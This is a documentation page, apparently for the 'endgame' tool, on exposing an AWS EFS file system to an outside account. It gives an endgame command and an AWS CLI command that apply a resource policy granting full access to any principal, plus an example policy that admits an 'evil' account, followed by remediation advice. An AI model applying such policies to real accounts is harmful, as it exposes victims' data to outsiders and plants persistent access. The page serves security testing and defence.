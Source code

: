 # Elastic File Systems (EFS)

## Steps to Reproduce

> Note: The Terraform demo infrastructure will output the EFS File System ID. If you are using the Terraform demo infrastructure, you must leverage the file system ID in the `--name` parameter.

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service efs --name fs-01234567
```

* Alternatively, to expose the resource using the AWS CLI, run the following from the victim account:

```bash
aws efs put-file-system-policy --file-system-id fs-01234567 --policy '{
    "Version": "2012-10-17",
    "Id": "read-only-example-policy02",
    "Statement": [
        {
            "Sid": "AllowEverybody",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "elasticfilesystem:*"
            ],
            "Resource": "*"
        }
    ]
}'
```

* To view the contents of the file system policy, run the following:

```bash
aws efs describe-file-system-policy \
    --file-system-id fs-01234567
```

* Observe that the contents of the overly permissive resource-based policy match the example shown below.

## Example

The policy below shows the EFS policy granting `elasticfilesystem:*` access to the file system from the evil principal (`arn:aws:iam::999988887777:user/evil`).

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowCurrentAccount",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::111122223333:root"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        },
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        }
    ]
}
```


## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Block Public Access to the EFS File System**: Follow the EFS Guidance [here](https://docs.aws.amazon.com/efs/latest/ug/access-control-block-public-access.html) to block public access to the EFS File Systems.
* **Trusted Accounts Only**: Ensure that EFS File Systems are only shared with trusted accounts, and that the trusted accounts truly need access to the File System.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EFS File Systems**: Tightly control access to the following IAM actions:
  - [elasticfilesystem:PutFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_PutFileSystemPolicy.html): _Grants permission to apply a resource-level policy that defines the actions allowed or denied from given actors for the specified file system_
  - [elasticfilesystem:DescribeFileSystems](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystems.html): _Grants permission to view the description of an Amazon EFS file system specified by file system CreationToken or FileSystemId; or to view the description of all file systems owned by the caller's AWS account in the AWS region of the endpoint that is being called_
  - [elasticfilesystem:DescribeFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystemPolicy.html): _Grants permission to view the resource-level policy for an Amazon EFS file system_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [put-filesystem-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/efs/put-file-system-policy.html)
* [Creating File System Policies](https://docs.aws.amazon.com/efs/latest/ug/create-file-system-policy.html)
